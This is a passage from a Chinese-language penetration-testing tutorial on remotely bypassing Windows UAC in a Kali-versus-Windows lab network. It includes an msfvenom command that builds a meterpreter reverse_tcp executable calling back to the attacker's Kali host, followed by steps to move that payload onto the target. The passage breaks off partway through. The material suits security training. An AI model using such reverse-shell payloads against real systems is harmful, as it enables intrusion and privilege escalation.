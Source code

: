 我们将远程绕过 Windows UAC 以提升权限：

1.  验证你的 Kali 虚拟机和 Windows 虚拟机的 IP 地址——你应该在两个主机的独立网络上都能看到接口。在我的情况下，我的 Kali 设备是`192.168.56.10`，而我的 Windows XP 设备是`192.168.56.102`。

1.  通过点击终端图标打开终端窗口：![](img/58d64492-2224-4790-866e-60e7030e7b9a.png)

1.  我们将通过输入以下命令快速创建一个有效载荷文件：

```
msfvenom -p Windows/meterpreter/reverse_tcp lhost=192.168.56.10 lport=8443 -f exe > /root/exploit.exe 
```

![](img/96a824a9-1d64-499b-a3dc-91175db40693.png)Kali：终端输出

1.  一旦有效载荷创建完成，将其移动到目标机器。

1.  以标准用户身份登录到目标计算机。在我的情况下，我将以`Jane Doe`身份登录。你可以打开命令提示符并使用`qwinsta`命令，或者在较新的 Windows 版本中，你可以使用`whoami`命令，类似于 Linux 系统：
